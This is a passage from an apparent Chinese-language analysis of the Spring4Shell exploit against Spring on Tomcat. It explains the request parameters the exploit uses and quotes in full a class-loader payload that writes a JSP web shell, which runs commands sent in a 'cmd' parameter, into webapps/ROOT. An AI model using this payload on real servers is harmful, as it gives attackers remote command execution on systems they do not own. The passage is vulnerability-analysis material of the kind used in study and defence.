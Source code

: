 ![image-20220421175519631](images/26.png)

发送的时候都url编码一下

# 漏洞分析

来看一下exp里面的一些参数

- `class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`
- `class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp`
- `class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT`

- `class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar`

- `class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=`

这些参数都是上面日志的一些参数，pattern是内容，可以看到现在是一个jsp的木马，suffix是文件后缀，directory是文件输出目录，prefix是文件输出前缀，fileDateFormat是文件生产日期（加在前缀后面的）

## pattern参数

前面说到过，因为没有使用stopClass的原因，每个javabean类还可以获取到一个Class类

和上面一样，在这里对每一个绑定的参数迭代解析

![image-20220428124908695](images/27.png)
